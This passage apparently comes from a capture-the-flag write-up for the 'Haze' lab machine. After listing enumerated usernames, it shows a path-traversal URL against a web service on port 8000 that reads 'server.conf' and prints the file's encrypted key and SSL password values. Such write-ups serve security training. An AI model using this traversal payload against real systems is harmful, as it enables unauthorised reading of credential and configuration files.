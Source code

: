 ![](images/2025-03-29_20-30_8000_arbitrary_file_read.png)

| Username |
| -------- |
| admin    |
| edward   |
| mark     |
| paul     |

With this in our arsenal we went ahead to `enumerate` even more of the system and so we found two interesting `hashes` in the `server.conf`.

```console
/en-US/modules/messaging/C:../C:../C:../C:../C:..//etc/system/local/server.conf
```

- [http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:..//etc/system/local/server.conf](http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:..//etc/system/local/server.conf)

```console
[general] serverName = dc01 pass4SymmKey = $7$lPCemQk01ejJvI8nwCjXjx7PJclrQJ+SfC3/ST+K0s+1LsdlNuXwlA== [sslConfig] sslPassword = $7$/nq/of9YXJfJY+DzwGMxgOmH4Fc0dgNwc5qfCiBhwdYvg9+0OCCcQw== [lmpool:auto_generated_pool_download-trial] description = auto_generated_pool_download-trial peers = * quota = MAX stack_id = download-trial [lmpool:auto_generated_pool_forwarder] description = auto_generated_pool_forwarder peers = * quota = MAX stack_id = forwarder [lmpool:auto_generated_pool_free] description = auto_generated_pool_free peers = * quota = MAX stack_id = free
```
